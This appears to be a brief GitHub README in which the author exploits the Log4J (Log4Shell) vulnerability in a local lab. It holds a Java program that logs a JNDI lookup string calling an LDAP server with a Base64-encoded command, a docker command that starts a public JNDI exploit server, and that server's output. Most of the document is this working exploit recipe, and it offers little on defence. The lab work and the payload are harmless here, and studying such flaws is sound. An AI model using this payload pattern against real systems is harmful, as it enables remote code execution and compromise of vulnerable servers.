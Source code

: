# Introduction

Log4J is popular topic recently - Most of the apps are vulnerable for Log4J vulnerability. 

Below is my experiment locally exploiting the Log4J vulnerability.

## Vulnerable Code

Reference - https://www.lunasec.io/docs/blog/log4j-zero-day/

```
package com.mycompany.app;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * Hello world!
 *
 */
public class App 
{
    static Logger log = LogManager.getLogger(App.class.getName());
        public static void main( String[] args )
    {
        String username = args[0];
        System.out.println( "Hello World....!" );
        log.error("Hello: " + username);
        log.error("X-Api-Verson: ${jndi:ldap://192.168.1.251:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}");
    }
}
```

Compile the vulnerable code and get it ready to execute

## Run the exploitable code using below docker command

```
docker run --name jndi -p 8080:8080 -p 1389:1389 -e IP=192.168.1.251 mormoroth/jndiexploit:v1
```
Change the IP address to your local IP address... Something like below on MAC
`ifconfig | grep -b4 en0`

LDAP and HTTP server started by exploitable code
```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
```

## Execute

Compile and execute the vuln. code . JNDI Params call the exploitable code which in turn send the Remote code execution

![fF](./assets/log4j/img-1.png)

![fF](./assets/log4j/img-2.png)
